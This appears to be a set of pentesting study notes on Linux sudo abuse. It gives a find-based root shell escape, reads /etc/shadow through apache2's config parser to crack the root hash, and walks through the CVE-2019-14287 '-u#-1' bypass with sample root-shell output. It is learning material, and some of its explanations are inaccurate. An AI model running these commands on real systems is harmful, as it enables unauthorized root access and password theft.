



# Sudo Abuse

running sudo without password is one of the most dangerous things in linux. we can use sudo to run binaries and apps that are vulnerable to shell escape sequence and use them to get a root shell.

GTFObins is a great resource for linux privilege escalation and will help you find vulnerable binaries and methods to use them.



**sudo -l** &gt;&gt;&gt; see what executable binaries in the system we can use with sudo

for example we search for find command in the web page to see how we can use it to abuse sudo

we can use this for prives

#### `sudo find . -exec /bin/sh \; -quit`

another example would be apache2 which we can ru usung sudo but it doesnt have an scape sequence to abuse

but there are other methods for this for example apache2 will return an error while parsing a configuration file when it doesnt understand it and it will print out any line of the given file

#### `sudo apache2 -f /etc/shadow`

apache wont understand the /etc/shadow file entries as a config file so it will print out any line that it doesnt understand which will be the root hashed password

we can now copy and crack the root hash

## CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$\(\(0xffffffff\)\)" command.

the exploit code can be found here.



Check for the user sudo permissions

#### `sudo -l`

User hacker may run the following commands on kali:

#### `(ALL, !root) /bin/bash`

#### So user hacker can't run /bin/bash as root \(!root\)

User hacker sudo privilege in /etc/sudoers

#### `# User privilege specification  root ALL=(ALL:ALL) ALL`

#### `hacker ALL=(ALL,!root) /bin/bash`

With ALL specified, user hacker can run the binary /bin/bash as any user

### Exploit

**sudo -u\#-1 /bin/bash** → \#-1 means the the first entry of the /etc/shadow file \(root\) so we can specify any user ID with a + like: \#+1000

Example :

#### `hacker@kali:~$ sudo -u#-1 /bin/bash  root@kali:/home/hacker# id  uid=0(root) gid=1000(hacker) groups=1000(hacker)  root@kali:/home/hacker#`

####  Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u\#-1 returns as 0 which is root's id and /bin/bash is executed with root permission Proof of Concept Code :

#### `python3 sudo_exploit.py`

